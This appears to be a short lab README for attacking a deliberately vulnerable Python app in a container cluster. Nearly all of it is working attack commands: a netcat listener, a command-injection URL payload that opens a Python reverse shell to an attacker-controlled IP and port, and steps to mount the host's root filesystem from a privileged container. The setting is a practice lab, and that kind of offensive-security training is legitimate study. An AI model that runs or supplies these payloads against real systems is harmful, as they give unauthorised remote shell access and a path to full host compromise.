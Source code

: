 
# Commands
## run netcat to capture incomming reverse shell in a new terminal
nc -lvp <port>

## Ip (docker ip if run with k3d or similar)
ifconfig | grep docker0 -A 1

Use the docker ip as the <ip>

** Replace <placeholders> when executing the thing **
Replace <ip> and <port> with your own values

## The exploit, run from a vulnerable input prompt
Run this appended to a vulnerable RCE shell command like the one on vulnerable-python/search?q=

### Using Python to initiate shell
Url encoding makes it annoying to accomplish the desired redirection of the file descriptors when trying to spawn the reverse shell. So we use the python way because we know for a fact that it has python available as it is a python container
With portforward to vulnerable-python deployment
```bash
localhost:5000/search?q=<something>||export RHOST="<IP>";export RPORT=<PORT>;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# Mounting rootFS in privilege container
``` bash
cat /proc/cmdline
> BOOT_IMAGE=/boot/vmlinuz-5.19.0-40-generic root=UUID=b4622f81-d047-4c8b-86ea-a7dcfb3dd58f ro quiet splash
findfs UUID=b4622f81-d047-4c8b-86ea-a7dcfb3dd58f
> /dev/sda3
mkdir /mnt-test && mount /dev/sda3 /mnt-test
cd /mnt-test/var/lib/docker
```